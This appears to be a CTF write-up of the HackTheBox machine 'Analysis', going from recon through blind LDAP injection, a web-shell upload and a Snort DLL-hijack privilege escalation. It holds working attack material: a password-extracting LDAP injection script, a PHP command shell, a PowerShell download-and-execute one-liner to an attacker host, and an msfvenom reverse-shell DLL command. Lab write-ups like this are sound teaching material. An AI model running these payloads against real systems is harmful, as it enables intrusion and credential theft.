

# [](#intro)Introduction

Let's solve another machine from HackTheBox season 4: Analysis. This box is classified as Hard, so buckle up and prepare for battle! 


# [](#approach)Approach mindset

For our approach mindset, we shall separate it as the following steps:

1. Reconnaissance
2. Getting foothold
3. System enumeration
4. Privilege escalation


## [](#step1-recon)Step 1 - Reconnaissance

Let's start by enumerting the machine's TCP open ports with Nmap:

```bash
$ sudo nmap -p- -A -oN ports.nmap --min-rate 1000 -T4 10.129.33.58
# Nmap 7.94 scan initiated Sun Jan 21 20:09:39 2024 as: nmap -p- -A -oN ports.nmap --min-rate 1000 -T4 10.129.33.58
Nmap scan report for 10.129.33.58
Host is up (0.13s latency).
Not shown: 65507 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-21 23:13:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql         MySQL (unauthorized)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94%I=7%D=1/21%Time=65AD7A58%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(HTTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r
SF:(RTSPRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0
SF:\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00
SF:0")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SSLSessionReq,2B,"\x05\0
SF:\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x2
SF:0message\"\x05HY000")%r(TerminalServerCookie,9,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\
SF:x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(Kerberos,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,"\x05\0\0\0\x0b\x08\x05\x1
SF:a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(FourOhFourRequest,9,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x
SF:08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(LDAPBindReq,46
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\x08\x01\x10\x88'\x1a\*Parse
SF:\x20error\x20unserializing\x20protobuf\x20message\"\x05HY000")%r(SIPOpt
SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(Not
SF:esRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x
SF:1a\x0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,
SF:32,"\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Inv
SF:alid\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(giop,9,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=1/21%OT=53%CT=1%CU=38916%PV=Y%DS=2%DC=T%G=Y%TM=65AD7AA
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=107%TI=I%CI=I%II=I%SS=S%TS=
OS:U)SEQ(SP=103%GCD=2%ISR=107%TI=I%CI=RD%II=I%SS=S%TS=U)OPS(O1=M53CNW8NNS%O
OS:2=M53CNW8NNS%O3=M53CNW8%O4=M53CNW8NNS%O5=M53CNW8NNS%O6=M53CNNS)WIN(W1=FF
OS:FF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M5
OS:3CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80
OS:%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q
OS:=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD
OS:=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h02m30s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-21T23:14:40
|_  start_date: N/A

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   129.49 ms 10.10.14.1
2   129.54 ms 10.129.33.58

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 21 20:12:21 2024 -- 1 IP address (1 host up) scanned in 162.35 seconds
```

We can see a bunch of services, but the ones that are interesting to me at a first glance are ports 53, 80, 88 and 389. If we attempt to access the website, we get a 404. 

Let's shift our attention to other services for now. I've decided to run Nmap again the script `ldap* and not brute` to see if we can find the domain name and other useful information. 

```bash
$ sudo nmap --script "ldap* and not brute" -oN ldap-enum.txt 10.129.33.58
[...snip...]
,DC=analysis,DC=htb
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=analysis,DC=htb
|       namingContexts: DC=analysis,DC=htb
|       namingContexts: CN=Configuration,DC=analysis,DC=htb
|       namingContexts: CN=Schema,CN=Configuration,DC=analysis,DC=htb
|       namingContexts: DC=DomainDnsZones,DC=analysis,DC=htb
|       namingContexts: DC=ForestDnsZones,DC=analysis,DC=htb
|       isSynchronized: TRUE
|       highestCommittedUSN: 377005
|       dsServiceName: CN=NTDS Settings,CN=DC-ANALYSIS,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=analysis,DC=htb
|       dnsHostName: DC-ANALYSIS.analysis.htb
|       defaultNamingContext: DC=analysis,DC=htb
|       currentTime: 20240122225140.0Z
|_      configurationNamingContext: CN=Configuration,DC=analysis,DC=htb
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
[...snip...]
```

As we can see, the DC for this is `analysis.htb`. Maybe the reason why the browser was not able to fetch the website through the IP address is because this domain name must be added to `/etc/hosts`. Let's add it to the with `sudo vim /etc/hosts` and add `<machine-ip> analysis.htb` at the end of the file. After that, let's try to access the webpage again:


Alright! This seems like a nice website. However, I have not found anything useful within the page or DOM, so I decided to enumerate it with `ffuf`. Without any success, I tried to move on to another enumeration method. Since port 53 is open, we might be able to find subdomains associated with the `analysis.htb` name service. For that, I've ran `gobuster` with the DNS flag:

```bash
$ gobuster dns -d analysis.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r analysis.htb:53
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     analysis.htb
[+] Threads:    10
[+] Resolver:   analysis.htb:53
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: www.analysis.htb

Found: internal.analysis.htb

Found: gc._msdcs.analysis.htb

Found: domaindnszones.analysis.htb

Found: forestdnszones.analysis.htb
                                                                                                  
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

As we can see, there are some subdomains available for us. Before trying to access them, we must add them to `/etc/hosts` file like this: `<machine-ip> analysis.htb internal.analysis.htb domaindnszones.analysis.htb forestdnszones.analysis.htb ...`. After that, let's examine `internal.analysis.htb`:


As we can see, this page is unreachable for now. But that does not mean we are not able to enumerate this subdomain for other endpoints. For that reason, I decided to run `ffuf` to find possible endpoints:

```bash
$ ffuf -u http://internal.analysis.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-1.0.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Users                   [Status: 301, Size: 170, Words: 9, Lines: 2, Duration: 136ms]
dashboard               [Status: 301, Size: 174, Words: 9, Lines: 2, Duration: 139ms]
\                       [Status: 403, Size: 1268, Words: 74, Lines: 30, Duration: 149ms]
employees               [Status: 301, Size: 174, Words: 9, Lines: 2, Duration: 135ms]
```

As we can see, there are some interesting endpoints that might have hidden ways in the web-service. After some failed attempts, I decided to append `.php` extension at the end of the endpoints and got some interesting results. Starting with the `/Users/` endpoint, we have:

```bash
$ ffuf -u http://internal.analysis.htb/users/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -e .php

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-1.0.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

list.php                [Status: 200, Size: 17, Words: 2, Lines: 1, Duration: 173ms]
```

Accessing the page, we have:


It seems the page is expecting a GET parameter in the request. For that, we will try to find what is the correct parameter with a bash script:

```bash
#!/bin/bash

WORDLIST_PATH="/usr/share/wordlists/seclists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt"

if [[ ! -f "$WORDLIST_PATH" ]]; then
        echo "Wordlist file does not exist at $WORDLIST_PATH"
        exit 1
fi

while IFS= read -r line; do
        echo "Testing parameter name '$line'..."
        res=$(curl -s "http://internal.analysis.htb/Users/list.php?$line")
        if [[ $res != *"missing parameter"* ]]; then
                echo "Parameter found: $line"
                exit 0
        fi
done < "$WORDLIST_PATH"
```

This will loke for different responses by passing different parameter names to it. After running it, we find that the parameter name is `name`:

```bash
$ ./find-param.sh
[...snip...]
Testing parameter name 'embedded'...
Testing parameter name 'enc_user'...
Testing parameter name 'f'...
Testing parameter name 'fiatId'...
Testing parameter name 'format'...
Testing parameter name 'full_text'...
Testing parameter name 'href'...
Testing parameter name 'id'...
Testing parameter name 'id_type'...
Testing parameter name 'include'...
Testing parameter name 'k4'...
Testing parameter name 'k'...
Testing parameter name 'keyURL'...
Testing parameter name 'language'...
Testing parameter name 'limit'...
Testing parameter name 'list'...
Testing parameter name 'list_id'...
Testing parameter name 'lon'...
Testing parameter name 'm4'...
Testing parameter name 'name'...
Parameter found: name
```

Accessing the page, we find this:


After poking around with this parameter, I've got nowhere. So I decided to move on to another endpoint. Since the `/dashboard` endpoint is giving us Access Denied, let's enumerate the `/employees` endpoint with `ffuf`.

```bash
$ ffuf -u http://internal.analysis.htb/employees/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -e .php   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/employees/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-1.0.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.php               [Status: 200, Size: 1085, Words: 413, Lines: 30, Duration: 182ms]
```

And we found a login page! 


Ok, so we need a pair of credentials to login. Let's move to another service and see if we can leak something useful. Note that we have Kerberos running, which means we can use `kerbrute` to find valid emails. The internal emails used here must be `@analysis.htb`. Let's run:

```bash
$ cat /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt possible-usernames.txt | sed "s|$|@analysis.htb|" > emails-wl.txt
```

Now, we run kerbrute:

```bash
$ kerbrute userenum -d analysis.htb emails-wl.txt --dc analysis.htb
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/22/24 - Ronnie Flathers @ropnop

2024/01/22 20:37:53 >  Using KDC(s):
2024/01/22 20:37:53 >   analysis.htb:88

2024/01/22 20:39:23 >  [+] VALID USERNAME:       jdoe@analysis.htb
2024/01/22 20:40:45 >  [+] VALID USERNAME:       ajohnson@analysis.htb
2024/01/22 20:43:40 >  [+] VALID USERNAME:       cwilliams@analysis.htb
2024/01/22 20:45:00 >  [+] VALID USERNAME:       wsmith@analysis.htb
2024/01/22 20:49:41 >  [+] VALID USERNAME:       jangel@analysis.htb
2024/01/22 21:10:10 >  [+] VALID USERNAME:       technician@analysis.htb
2024/01/22 21:28:24 >  [+] VALID USERNAME:       JDoe@analysis.htb
2024/01/22 21:29:38 >  [+] VALID USERNAME:       AJohnson@analysis.htb
2024/01/22 22:50:34 >  [+] VALID USERNAME:       badam@analysis.htb

```

As we can see, there are a bunch of valid usernames. Let's go back to the `/Users` endpoint and pass these usernames (without the mail part `@analysis.htb`) and see if we can retrieve someone's password. After a bunch of attempts, we see that the name `technician` under the email `technician@analysis.htb` gives a different response:


However, nothing too much interesting shows up here. We could try to brute the password using kerbrute, but I've tried it with huge wordlists and nothing was found. There must be another way to get this user's password...

I've tried to send SQL injection payloads, but without success. Then, after a long time of researching, I've found (and learned) this new injection technique: LDAP injections. Some web applications serve as bridges to LDAP service, and they can also be prone to injection! I came across [this](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt) wordlist, which contained different kinds of payloads. The first one, a simple asterisk `*`, showed that the `name` parameter was indeed used to query LDAP:


After a bit more research, I found that the payload `name=<username>)(%26(objectClass=user)(description=*)` can be used to enumerate the possible characters of the user's password. All we need to do is pass characters at `(description=<pwd-char>*)`. If the character is a correct guess, then the page would return the same as if we pass `name=<username>` alone. This is a blind LDAP injection attack, as we have to guess without actually having the password to be printed out for us in the body of the page.

As an example, let's see the following response for the payload `name=technician)(%26(objectClass=user)(description=9*)` against `name=technician)(%26(objectClass=user)(description=7*)`. 


As we can see, because we got a response back with the First Name field containing `technician` when we passed the 9 instead of 7, we conclude that the number 9 is the first character of the `technician` user!

Alright, let's automate the character testing process using a Python script. However, there's a catch: the asterisk character `*` holds a special meaning in LDAP queries, representing a wildcard. This presents a challenge if the character is part of the password, as our query may not interpret it correctly. For instance, if the password is `abc\*123\*!@#`, our script can correctly guess up to abc, but it will struggle to identify the * due to its special significance in LDAP. To address this, the script operates in rounds. It tests characters sequentially until it exhausts its list. If it can't progress further, the script attempts a login, assuming the next character might be an asterisk. If the login fails, it confirms the presence of a * and proceeds to the next round. This process repeats until the script successfully deduces the entire password. The script is available [here](https://github.com/alexbsec/analysis-htb/blob/master/ldapinject.py).

```python
import requests
import urllib.parse
import string
import time

def try_login(url, email, password):
    data = {
        'username':email,
        'password':urllib.parse.unquote_plus(password),
        'login':'Login'
    }

    res = requests.post(url, data=data)
    if "Wrong Data" in res.text:
        return False

    return True

def test_payload(url, char, found_chars):
    modified_url = url.replace("{FUZZ}", urllib.parse.quote_plus(char)).replace("{found_char}", found_chars)
    print(f"Testing {char} for URL: {modified_url}")
    try:
        res = requests.get(modified_url)
        if res.status_code == 200 and "technician" in res.text:
            return True
    except requests.RequestException as e:
        print(f"Request failed: {e}")
    return False

def do_loop(url, wl, found_chars):
    for char in wl:
        char = char.strip()
        if test_payload(url, char, found_chars):
            print(f"Found char: {char}. Resetting iteration")
            found_chars += char
            return do_loop(url, wl, found_chars)
    return found_chars

def main():
    url = "http://internal.analysis.htb/Users/list.php"
    login_url = "http://internal.analysis.htb/employees/login.php"
    email = "technician@analysis.htb"
    password = ""
    max_rounds = int(input("How many rounds? "))

    wl = string.ascii_lowercase + string.ascii_uppercase + string.digits + "!@#$%^&*()_+=-"
    param = "?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
    base_url = url + param
    
    rounds = 1
    while rounds <= max_rounds:
        password = do_loop(base_url, wl, password)
        print(f"[*] Round {rounds} password is: '{password}'. Attempting login...")
        can_login = try_login(login_url, email, password)
        time.sleep(3)
        if can_login:
            print(f"[+] Login successful!")
            break
        print(f"[-] Round {rounds} login attempt failed with password '{password}'")
        print(f"[*] Starting round {rounds+1} assuming next character in password is '*'")
        rounds += 1
        password += "%2A"
    

    password = urllib.parse.unquote_plus(password)
    print(f"[+] Password is: '{password}'")

    return 0

if __name__ == '__main__':
    status = main()
    exit(status)
```

Here's the output:

```bash
$ python ldapinject.py
How many rounds? 2
[...snip...]
Testing @ for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%40*)
Testing # for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%23*)
Testing $ for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%24*)
Testing % for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%25*)
Testing ^ for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%5E*)
Testing & for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%26*)
Testing * for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%2A*)
Testing ( for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%28*)
Testing ) for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%29*)
Testing _ for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv_*)
Testing + for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%2B*)
Testing = for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%3D*)
Testing - for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv-*)
[*] Round 2 password is: '<redacted>'. Attempting login...
[+] Login successful!
[+] Password is: '<redacted>'
```

With the password at our disposal, we can log into the admin interface:


## [](#step3-foothold)Step 2 - Getting foothold


Poking around a little bit, we find an upload funcionality at `/dashboard/form.php`. Since the website seems to be rendering PHP, let's upload a PHP script containing the following:

```php
<?php
echo '<h1>hi mom</h1>';
?>
```


As we can see from the response, the file was uploaded. Now, we need to find the endpoint where the uploads are stored. Let's use `ffuf` to find it:

```bash
 $ ffuf -u http://internal.analysis.htb/dashboard/FUZZ -w usr/share/wordlists/dirbuster/directory-list-1.0.txt -s
img
uploads
```

As we can see, it is located at `/dashboard/uploads`. Accessing the page under the name of the file we uploaded:


Since this is a Windows machine, let's first upload a webshell and get a reverse shell from it. For that, we will use the following PHP script:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

After uploading it under the name of concha.php and accessing it, we find the following page:


We can test our web-shell by sending the command `whoami`: 



Ok, now we need a one-liner reverse shell to feed this form field. First, we will download [this](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1) PowerShell reverse shell code on our local machine and save it under `shell-payload.ps1`. Change everything necessary there, such as your IP address and port. Now we open a Python server where we saved the payload with

```bash
python3 -m http.server 2323
```

Finally, we use this powershell command as promp to our web-shell: `powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<your-ip>:2323/shell-payload.ps1')"`. Before running it, we open a new netcat listener on the port we passed in the payload `shell-payload.ps1`. 


And we get the reverse shell as the web service account!


## [](#step3-crafting-the-attack)Step 3 - System enumeration

Let's upload PrivescCheck.ps1 (you can find it [here](https://github.com/itm4n/PrivescCheck)) using the upload functionality within the website. Then, we can simply run it inside the shell by typing in `. .\PrivescCheck.ps1; Invoke-PrivescCheck`. We will then find a pair of credentials that can be used to log in as a user `jdoe`:


Let's use Evil-WinRM to connect with this user and spawn a more stable shell:

```bash
$ evil-winrm -i 10.129.223.1 -u jdoe -p <redacted>

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
analysis\jdoe

*Evil-WinRM* PS C:\Users\jdoe\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\jdoe\Desktop> ls


    Directory: C:\Users\jdoe\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/23/2024  10:33 PM             34 user.txt


*Evil-WinRM* PS C:\Users\jdoe\Desktop> cat user.txt
71d78169aa06bb5f7d5b1e6fd7babd81
```

Now that we are inside, let's take a look again at the `PrivescCheck.ps1`. After some greps here and there, I've found these lines:


After some research, I've found [this](https://www.cvedetails.com/cve/CVE-2016-1417/) CVE about dll hijack. In this exploit an attacker would place arbitrary code under tcapi.dll and run `snort.exe` to open any pcap file. Unfortunately, that did not work. I had to dig a little deeper...

During my research, I found [this](https://www.spencerdrayton.co.uk/blog/snort-custom-dynamic-preprocessor/) reference saying snort uses dynamic preprocessors for various network traffic analysis tasks. These preprocessors are dynamically loaded at runtime from the snort_dynamicpreprocessor directory.

This mechanism of dynamically loading preprocessors provides significant flexibility. But, there's a catch. Since Snort will load these preprocessors without much questioning, someone could sneak in a bad preprocessor – kind of like a rogue app – into the folder where Snort looks for them. This folder is located at `C:\Snort\lib\snort_dynamicpreprocessor`. 


## [](#solving) Step 4 - Privilege escalation
With that in mind, let's create a reverse shell with `msfvenom` to create a malicious dll and upload it to the dynamic preprocessor:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.153 LPORT=4444 -f dll -o sf_shell.dll
```

Now, we open our netcat on port 4444 and download this dll from the `jdoe` user shell we have access to with the following command:

```bash
Invoke-WebRequest -Uri "http://10.10.14.153:1234/sf_shell.dll" -OutFile "C:\Users\jdoe\Desktop\sf_shell.dll"
```

Don't forget to start a Python server on port 1234 in the directory containing the dll shell. After that, we run the following command on `jdoe` shell:

```bash
upload sf_shell.dll c:\snort\lib\snort_dynamicpreprocessor
```

And then we wait...


And we got root!


# [](#conclusions)Conclusion

In this CTF, we learned a lot more about LDAP injection techniques and Snort. We were able to retrieve sensitive information using `kerbrute` by first gathering possible and valid emails. After that, with LDAP injection, we were able to guess the user's password and log into the administrator panel. From there, we escalated our privileges using a web shell, granting us access as the web service. For lateral movement, we used PrivescCheck.ps1 and found leaked credentials.

After successfully logging in the leaked user credentials' account, we escalated privileges by uploading a maliciously crafted dll into the snort dynamic preprocessor's directory, which then spawned us the root shell.

It was nice ride, for sure!

I hope you liked this write-up and learned something new. As always, don’t forget to do your **research!**

<a href="/">Go back</a>

